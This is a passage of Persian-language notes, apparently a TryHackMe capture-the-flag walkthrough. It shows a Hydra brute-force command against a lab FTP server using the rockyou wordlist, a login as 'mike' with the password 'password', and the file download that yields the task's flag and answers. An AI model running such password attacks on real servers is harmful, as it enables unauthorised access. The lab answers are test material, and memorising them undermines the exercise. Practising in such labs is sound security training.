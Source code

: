 			1. ![[Pasted image 20240713171636.png]]
		4. `ftp> ls`
	6. فایلی درون سرور بنام `ftp.txt` وجود دارد که باید برای جواب دادن سوال آنرا دانلود کنیم:
		1. `ftp> ls`
		2. `ftp> get ftp.txt`
			1. ![[Pasted image 20240713171859.png]]
		3. `ftp> exit`
	7. حال کافیست `ftp.txt` فایل را باز کنیم و مقدار فلگ، که جواب سوال سوم است را کپی کنیم:
		1. `cat ~/ftp.txt`
			1. ![[Pasted image 20240713172027.png]]
2. *TASK 10 Q_&_A*
	1. *سوال اول* پسورد یوزرنیم Mike چیست؟ `password`
	2. *سوال دوم* فقط کافیست با یوزر نیم Mike به FTP Server درون ماشین تارگت متصل شویم. سپس بر روی `Completed` کلیک میکنیم.
	3. *سوال سوم* فایل `ftp.txt` را از FTP Server درون 10.10.223.220 دانلود کنید، سپس آنرا باز کنید، کافیست مقدار فلگ را کپی و در جواب این سوال paste کنیم. `THM{y0o_g0t_th3_ftp_fl4g}`
		1. ![[Pasted image 20240713172353.png]]
----
```sh
hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.223.220 ftp -v
ftp 10.10.223.220
Name(10.10.223.220:kali): mike
Password: password
ftp> ls
ftp> get ftp.txt
ftp> exit
cat ~/ftp.txt #Copy flag value => THM{y0o_g0t_th3_ftp_fl4g
```
### !